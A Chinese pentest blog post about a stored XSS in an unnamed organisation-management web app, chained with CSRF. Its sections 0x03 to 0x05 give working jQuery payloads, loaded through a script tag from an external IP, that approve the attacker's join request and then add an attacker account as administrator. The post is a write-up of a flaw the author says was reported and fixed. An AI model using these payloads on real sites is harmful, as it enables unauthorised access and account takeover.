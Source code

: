 ```yaml
---
draft: true
date: 2018-11-14 10:36:38
title: 记一次渗透测试中利用存储型 XSS 添加用户
description: 渗透测试中遇到了一个存储型的 XSS，但是有 httponly，所以第一次尝试通过写js来攻击目标从而添加用户。
categories:
  - Pentest
tags:
  - xss
---
```



### 0x00 简单查看
拿到目标后简单看了下，是一个类似员工管理的东西，用户可以创建group，其他用户可以搜索这个group然后申请加入

每个账号都可以注册组织，然后让别人加入，加入的用户有创建者、管理员、默认成员3个角色，管理员拥有的权限就比较大了，可以查看通讯录、添加成员、删除成员等等

### 0x01 申请加入组织流程分析
走了一遍流程，注册了两个账号，一个是reber，一个是yxk

在加入某组织时会让填验证信息，组织收到申请后同意然后把用户添加到某个分组然后确定

流程大概分4步，用户申请加入group、管理员点击同意、管理员关联用户到分组或成员、确定同意用户的申请

* 用户reber搜索组织，然后提交验证消息
![80](/img/post/20181114-110536.png)

* 用户yxk在消息列表同意reber的申请
![80](/img/post/20181114-110838.png)

* yxk给reber分组，点击下一步

* 最后一步写入备注信息，点击同意按钮最终同意用户加入
![70](/img/post/20181114-111139.png)



### 0x02 请求链接分析
经过对上面流程的抓包分析测试，涉及到的有用请求有3个：管理员点击同意链接时的请求、关联到分组或成员的请求、确定同意的请求

* 用户申请加入某group时发送的数据包如下：

```
API：/a/cms/org/applyorg
POST：verification=11111&orgId=247173
```

* group管理员同意用户申请时链接如下：

```
API：/a/cms/apply/handle-accept?id=6de027c0-9a4f-490e-a5e2-d1c76cd34a70&oid=247178&name=1760048****
```
这里链接里有一个id，经过抓包发现可以通过/a/cms/apply/applymsg这个接口直接得到同意申请时的链接

* 将申请用户关联到分组或成员涉及到如下数据包：

```
API：/a/cms/apply/do.handle
POST：ID=80b49e8f-4e8c-450f-8bf4-eb809271e779&OID=247178&GID=608863&MID=0&Agree=true&Reason=111
```

可以看到，上面的请求链接中都没有token，存在CSRF，就猜想能不能构造上述请求从而通过XSS和CSRF来做一些事情

### 0x03 构造直接添加用户到group的js
由于cookie设置了httponly，不能获取到完整的cookie，所以这里尝试写js代码，实现将用户直接加入group的功能

看了上面的请求包分析后发现，如果要构造数据包实现我们的想法的话需要有：ID、OID、GID这3个id

分析后发现在/a/cms/apply/applymsg请求的返回包中有同意的链接，链接中有ID

分析后发现在/a/cms/group/treeNode请求的返回包中有OID和GID

于是用于XSS的1.js内容构造如下：

```
//因为这里要把ajax的返回值return到函数中，需要是同步请求，所以async要设为false

function get_agree_url(){//得到管理员同意用户申请的链接
    var agree_url;
    var href;
    $.ajax({
        type: 'get',
        url: '/a/cms/apply/applymsg',
        async: false,
        success: function(data){
            $(data).find('#accept').each(function(index,element){
                href = $(this).attr('href');
                if (/id=.*?name=1760048****/.test(href)){
                    agree_url = href;
                }
            });
        }
    });
    return agree_url;
}

function get_oid_gid(){//得到oid和gid
    var oid;
    $.ajax({
        type: 'post',
        url: '/a/cms/group/treeNode',
        dataType: 'json',
        async: false,
        data: 'parentId=0',
        success: function(data){
            oid = data[0]['dataObject']['orgId'];
            gid = data[0]['dataObject']['topGroupId'];
        }
    });
    return {
        'oid':oid,
        'gid':gid
    };
}

function attack(){
    var agree_url = get_agree_url();
    var id = /id=(.*?)&/.exec(agree_url)[1];
    var oid_gid = get_oid_gid();
    var oid = oid_gid['oid'];
    var gid = oid_gid['gid'];

    $.get(agree_url);//同意用户加入group

    var step2_url = '/a/cms/apply/handle-accept2?ID='+id+'&OID='+oid+'&Name=176004****'+'&GID='+gid+'&MID=0';
    $.get(step2_url);//关联到分组或成员

    $.post('/a/cms/apply/do.handle',{ID:id,OID:oid,GID:gid,MID:0,Agree:true,Reason:'111'});//最终确认同意，设置备注
}

attack();
```

### 0x04 进行XSS攻击添加用户
用户reber尝试加入yxk的组织并提交恶意代码：```test<script src=//114.115.123.123/wyb/1.js></script>```
![80](/img/post/20181114-121432.png)

当用户yxk浏览用户申请列表页面时触发XSS
![80](/img/post/20181114-121938.png)

回到reber用户，可以看到已经加入了yxk的组织，可以进行一些操作了
![80](/img/post/20181114-122147.png)

### 0x05 更进一步，添加为管理员
刚开始分析发现通过上面的过程先添加用户，然后再添加用户为管理员，比较麻烦

后续发现其实不用这么麻烦，直接用另外一个接口发送ajax请求就能直接添加管理员用户

添加管理员的2.js如下：

```
function get_gid(){
    $.ajax({
        type: 'post',
        url: '/a/cms/group/treeNode',
        dataType: 'json',
        async: false,
        data: 'parentId=0',
        success: function(data){
            gid = data[0]['dataObject']['topGroupId'];
        }
    });
    return gid;
}

var gid = get_gid();

$.post('/a/cms/member/do.save',{memberId: 0,userId: '',mobile: '176004****',name: 'aaa',pinyin: 'aaa',groupId: 608863,group: '默认分组',roleId: 2,duty: '',sex: 0,sort: '10000','TEL;CELL': '','TEL;WORK': '',EMAIL: ''});
```

提交验证信息为：```test<script src=//114.115.123.123/wyb/2.js></script>```

当yxk访问请求的list页面时即可直接添加新用户aaa到group并且是管理员账户： 
![80](/img/post/20181114-123006.png)

好了，打完收工！


PS：漏洞已提交，并早在3个月前修复
